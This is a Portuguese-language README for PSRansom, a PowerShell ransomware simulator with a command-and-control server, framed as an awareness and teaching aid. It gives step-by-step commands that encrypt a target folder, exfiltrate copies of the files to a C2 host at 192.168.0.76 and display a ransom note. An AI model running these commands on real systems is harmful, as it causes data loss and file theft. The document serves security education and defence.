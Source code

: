 <div align="center">
  <img src="https://github.com/JoelGMSec/PSRansom/blob/main/PSRansom.png" alt="PSRansom.png">
</div>

## PSRansom - Simulação de Ransomware com C2

PSRansom ​​é um script escrito em PowerShell que permite simular o funcionamento de um Ransomware. É um script que você pode utilizar por exemplo em uma apresentação de conscientização sobre os riscos e o impacto que um ransomware pode causar.

🔴 O uso indevido desta técnica é de sua total responsabilidade e está sujeito as penalizações prevista na [Lei 12.737](https://www.planalto.gov.br/ccivil_03/_ato2011-2014/2012/lei/l12737.htm).

## Como Usar

01 - Realize o clone do projeto PSRansom

```bash
git clone https://github.com/JoelGMSec/PSRansom
```

02 - Entre no diretorio dos arquivos

```bash
cd PSRansom
```

03 - Use o comando para vizualizar todos arquivos contido no diretorio

```bash
ls -l
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-01.png" alt="psransom-01.png">
</div>

04 - Inicie o C2 Server através do comando a seguir:

```bash
pwsh C2Server.ps1 + 80
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-02.png" alt="psransom-02.png">
</div>

05 - No host Windows criei a pasta 100SECURITY com alguns arquivos como exemplo.

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-03.png" alt="psransom-03.png">
</div>

06 - Realize o download do PSRansom no Windows e execute o comando a seguir:

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-04.png" alt="psransom-04.png">
</div>

- C:\100SECURITY : Pasta Alvo
- 192.168.0.76 : Servidor C2
- 80 : Porta de conexão com o servidor C2
- -x : Realiza a cópia dos arquivos para o servidor C2

07 - No servidor C2 o atacante recebe a lista de arquivos que foram criptografados e a Chave de Recuperação.

```bash
Chave de Recuperação : WNLmTxjnDpzZGaEF4AsUYgi5
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-05.png" alt="psransom-05.png">
</div>

Arquivos `criptografados` com a extensão `.psr`

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-06.png" alt="psransom-06.png">
</div>

08 - Dentro da pasta C2Files o atacante recebe uma cópia de todos os arquivos antes da criptografia.

```bash
cd CS2Files
```

```bash
ls -l
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-07.png" alt="psransom-07.png">
</div>

07 - Observe que foi criado o arquivo readme.txt contendo a Chave de Recuperação dos arquivos.

```bash
Recovery Key : WNLmTxjnDpzZGaEF4AsUYgi5
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-08.png" alt="psransom-08.png">
</div>

08 - Para recuperar os arquivos basta digitar o comando a seguir :

```bash
.\PSRansom.ps1 -d C:\100SECURITY -K WNLmTxjnDpzZGaEF4AsUYgi5
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-09.png" alt="psransom-09.png">
</div>

Arquivos `recuperados` com sucesso!

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-10.png" alt="psransom-10.png">
</div>

🔴   Exibindo uma mensagem da Tela do Usuário
Para exibir a mensagem basta utilizar o parâmetro `-demo`:

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x -demo
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-11.png" alt="psransom-11.png">
</div>

💀 Mensagem!

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-12.png" alt="psransom-12.png">
</div>

Se o usuário clicar em `Pay Now!` é exibido um pop-up na tela.

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-13.png" alt="psransom-13.png">
</div>

## 🔓 Observações
O impacto e o prejuízo financeiro que este tipo de ataque por causar nas empresa é muito grande, segue algumas recomendações :

Conscientize de forma constante os colaboradores da sua empresa, sobre os riscos de segurança
Realize exercícios e simulações de Phishing, Ransomware, Engenharia Social, etc.
Invista em soluções de segurança como EDRs, AVs, Firewall, WAF, etc.
Se possível monte um time interno de segurança em sua empresa para realizar simulações de ataques reais.
Contrate uma consultoria especializada para avaliar seu ambiente de forma independente e periódica.
Leve a segurança dos dados da sua empresa e de seus clientes a sério!


# Simulação de Ransomware com C2 - Projeto de Estudo

Este projeto é uma simulação de ransomware com um servidor de comando e controle (C2) e é destinado apenas para fins educacionais e de aprendizado. Ele não deve ser usado de forma maliciosa ou prejudicial.

## Fonte Original

Este projeto foi inspirado por um tutorial e código fonte fornecido por [JoelGMSec](https://github.com/JoelGMSec). Certifique-se de verificar o tutorial original para obter mais informações detalhadas.

## Fonte da Simulação

As imagens do projeto mostradas acima foram tiradas do tutorial fornecido por [100SECURITY](https://www.100security.com.br/psransom).

---
**OBSERVAÇÃO:**
Quero deixar meus agradeçimentos ao [JoelGMSec](https://github.com/JoelGMSec) pela criação do projeto e tambem a equipe [100SECURITY](https://www.100security.com.br/psransom) pela demostração na pratica!!!

## Sobre o Projeto

O objetivo deste projeto é permitir que os estudantes de segurança cibernética compreendam como um ransomware pode funcionar, bem como aprender a se defender contra esse tipo de ameaça. É importante lembrar que a criação e disseminação de malware são atividades ilegais e prejudiciais.

## Pré-requisitos

Certifique-se de ter o ambiente adequado configurado para executar este projeto de forma segura. Você deve estar ciente de que este projeto simula um ransomware, e executá-lo em um ambiente de produção resultará em perda de dados.

## Contribuição e Responsabilidade

Este projeto é apenas para fins educacionais e não deve ser usado para atividades maliciosas. Os contribuidores deste projeto não se responsabilizam pelo uso inadequado ou ilegal do código fornecido.

## Licença

Este projeto está sob a [Licença MIT](LICENSE).
